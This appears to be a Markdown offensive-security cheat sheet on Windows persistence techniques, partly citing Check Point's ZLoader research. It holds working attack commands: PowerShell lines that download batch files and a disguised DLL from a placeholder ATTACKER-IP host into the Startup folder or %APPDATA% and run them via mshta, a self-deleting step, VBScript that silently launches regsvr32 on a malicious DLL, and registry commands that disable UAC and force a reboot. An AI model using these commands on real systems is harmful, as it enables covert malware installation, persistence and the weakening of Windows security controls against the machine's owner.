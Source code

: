 # Windows Persistence

## Run at Startup

```pwsh
# Copy script into Windows Startup folder
cd "%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
powershell Invoke-WebRequest "http://ATTACKER-IP/startup.bat" -OutFile startup.bat
start /b cmd /c ./startup.bat

```

## MSHTA to run VBScript

Source from [Checkpoint ZLoader](https://research.checkpoint.com/2022/can-you-trust-a-files-digital-signature-new-zloader-campaign-exploits-microsofts-signature-verification-putting-users-at-risk/)

```pwsh
# Run manipulated signed DLL with VBScript
cd %APPDATA%
powershell Invoke-WebRequest "http://ATTACKER-IP/malicious-vbsscript.dll" -OutFile malicious-vbsscript.dll
start /b cmd /c %WINDOWS%\System32\mshta.exe %APPDATA%/malicious-vbsscript.dll
# Delete this script
start /b "" cmd /c del "%~f0"&exit /b
```

Abstract malicious-vbsscript.dll derived from a MS signed AppRolver.dll

* Requires manipulation of PE header
* Manipulated checksum
* Manipulated signature size

```vb
...
<script>
Set WshShell = CreateObject ("WScript.Shell")

' Create WscriptSleeper in %TEMP% and run it
Sub Sleep (ms)
  Set fso = CreateObject("Scripting.FileSystemObject")
  Dim sFilePath: sFilePath = fso.GetSpecialFolder(2) & "\WScriptSleeper.vbs"
  If Not fso.FileExists(sFilePath) Then
    Set oFile = fso.CreateTextFile(sFilePath, True)
    oFile.Write "wscript.sleep WScript.Arguments(0)"
    oFile.Close
  End if

  Dim oShell: Set oShell = CreateObject("WScript.Shell")
  oShell.Run sFilePath & " " & ms, 0 , True
End Sub

' Run DLL and BAT at starup
Sleep (1111)
WshShell.run "cmd.exe /c regsvr32 malicious.dll", 0
Sleep (2222)
WshShell.run "cmd.exe /c malicious.bat", 0
window.close()
</script>
```

## Deactivate UAC

* Requires **Admin** permissions (at least locally)
* Use with care, because it might break
  * Settings App (modern UI)
  * Installers
  * MS Store Apps

```pwsh
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 0

Restart-Computer
```

```shell
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v EnableLUA /t REG_DWORD /d 0 /f
shutdown /r /t 0
```
